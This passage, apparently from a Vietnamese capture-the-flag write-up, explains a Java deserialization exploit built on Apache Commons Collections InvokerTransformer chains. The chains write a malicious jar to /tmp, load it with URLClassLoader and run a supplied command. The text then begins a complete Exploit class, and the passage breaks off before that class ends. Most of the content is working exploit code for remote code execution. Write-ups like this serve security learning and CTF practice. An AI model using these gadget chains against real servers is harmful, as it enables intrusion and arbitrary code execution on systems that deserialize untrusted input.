 Đầu tiên ta sẽ dùng `FileOutputStream` để ghi file jar độc hại. 

```java=
 Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(java.io.FileOutputStream.class),
                new InvokerTransformer("getConstructor", new Class[] { Class[].class }, new Object[] { new Class[] { String.class } }),
//                new InvokerTransformer("newInstance", new Class[] { Object[].class }, new Object[] { new String[] {"RunCheckConfig.jar"} }),
                new InvokerTransformer("newInstance", new Class[] { Object[].class }, new Object[] { new String[] {"/tmp/RunCheckConfig.jar"} }),
                new InvokerTransformer("write", new Class[] { byte[].class }, new Object[] { classBytes }),
                new ConstantTransformer(1) };
```

Sau khi save file độc hại lên server sau đó dùng `URLClassLoader` để load 

```java=
Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(java.net.URLClassLoader.class),
                new InvokerTransformer("getConstructor", new Class[] { Class[].class }, new Object[] { new Class[] { java.net.URL[].class } }),
//                new InvokerTransformer( "newInstance", new Class[] { Object[].class }, new Object[] { new Object[] { new java.net.URL[] { new java.net.URL( "file:///D:\\Labs\\My_CTF_Chall\\KCSC2025\\java-med\\Legacy\\Legacy\\RunCheckConfig.jar") } } }),
                new InvokerTransformer( "newInstance", new Class[] { Object[].class }, new Object[] { new Object[] { new java.net.URL[] { new java.net.URL( "file:///tmp/RunCheckConfig.jar") } } }),
                new InvokerTransformer("loadClass", new Class[] { String.class }, new Object[] { "RunCheckConfig" }),
                new InvokerTransformer("getConstructor", new Class[] { Class[].class }, new Object[] { new Class[] { String.class } }),
                new InvokerTransformer("newInstance", new Class[] { Object[].class }, new Object[] { new String[] { cmd } }),
                new ConstantTransformer(1) };
```

Tóm lại ta có thể code Exploit như sau: 

```java=
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.net.MalformedURLException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Exploit {

    public static byte[] setupPayload() throws IOException {
        byte[] classBytes = genBytesContent();

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(java.io.FileOutputStream.class),
                new InvokerTransformer("getConstructor", new Class[] { Class[].class }, new Object[] { new Class[] { String.class } }),
//                new InvokerTransformer("newInstance", new Class[] { Object[].class }, new Object[] { new String[] {"RunCheckConfig.jar"} }),
```